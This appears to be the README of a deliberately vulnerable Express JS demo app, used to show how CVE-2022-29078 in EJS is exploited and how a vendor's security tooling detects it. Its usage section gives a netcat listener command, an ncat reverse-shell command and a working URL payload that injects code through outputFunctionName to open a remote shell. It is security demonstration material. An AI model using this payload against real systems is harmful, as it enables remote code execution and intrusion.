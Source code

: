 # VulnExpress 

## Overview
This a demo Express JS application to illustrate how a critical vulnerability can be exploited and how it could have been detected and remediated using [Jfrog Advanced Security](https://jfrog.com/advanced-security/) new features.


## Build the project and the docker image

Build the project
`npm install`
run it locally
`npm start`

Build the docker image

`docker build . -t vuln-ejs:latest`
Run it

`docker run -p 3000:3000 vuln-ejs:latest`

## Usage

1 - With netcat start listening on a given host, on the port 1337 for example

`nc -lv 1337`

Then we will exploit CVE-2022-29078 RCE to create a remote shell by issuing the following command in the container
`ncat host.docker.internal 1337 -e /bin/bash`

Note : pay attention that the netcat command may differs between the host OS & the container's distro (in macosx is it `nc`, while in the container it is `ncat`)
2 - To do that you will exploit the vulnerabilities using the following url 

`http://localhost:3000/?id=David&settings[view%20options][outputFunctionName]=x;process.mainModule.require(%27child_process%27).execSync(%27ncat%20host.docker.internal%201337%20-e%20/bin/bash%27);s`

Replace `host.docker.internal` if needed, to open your remote shell where your step 1 netcat processing is listening.